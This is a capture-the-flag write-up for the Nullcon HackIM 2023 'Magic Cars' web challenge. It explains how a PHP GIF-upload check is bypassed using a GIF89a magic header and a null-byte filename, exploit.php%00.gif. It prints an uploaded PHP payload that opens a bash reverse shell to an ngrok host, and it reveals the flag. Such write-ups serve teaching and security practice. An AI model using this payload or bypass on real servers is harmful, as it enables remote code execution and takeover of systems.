 # Nullcon Goa HackIM CTF 2023

## Web/Magic Cars

## Challenge Overview

Description: Who doesn't love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

![Index](./images/index.png)

We have been given a website [http://52.59.124.14:10021/](http://52.59.124.14:10021/). We can see three options there. But only gallery seems to be interesting.

So first let's see the source code given.

```php
<?php
error_reporting(0);

$files = $_FILES["fileToUpload"];
$uploadOk = true;

if ($files["name"] != "") {
    $target_dir = urldecode("images/" . $files["name"]);

    if (strpos($target_dir, "..") !== false) {
        $uploadOk = false;
    }

    if (filesize($files["tmp_name"]) > 1 * 1000) {
        $uploadOk = false;
        echo "Too big!!!";
    }

    $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $type = finfo_file($finfo, $files["tmp_name"]);
    finfo_close($finfo);

    if ($extension != "gif" || strpos($type, "image/gif") === false) {
        echo " Sorry, only gif files are accepted";
        $uploadOk = false;
    }

    $target_dir = strtok($target_dir, chr(0));

    if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
        echo "<a href='$target_dir'>Uploaded gif here. Go see it!</a>";
    }
}
?>
```


## Vulnerability Identification

As we can see the code is checking MIME type when we upload a gif. This leads to file upload vulnerability.

So adding gif header in the file the server can be easily exploited

[Reference](https://book.hacktricks.xyz/pentesting-web/file-upload)


## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **GIF89a**. And then we will inject some php code to exploit the server.

We will name this file as `exploit.php%00.gif`. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

So to exploit this server we will try to get a shell using **ngrok**

`exploit.php%00.gif` looks like:

```php
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16344 0>&1'");?>
```

## Obtaining the Flag

To retrieve the flag, we will use ngrok to get reverse shell.

After uploading the file when we open it we get the shell.

The flag is located in `/var/www/html` and is named **flag.flag**.

![Flag](./images/flag.png) 

Flag: **ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}**

Thank You

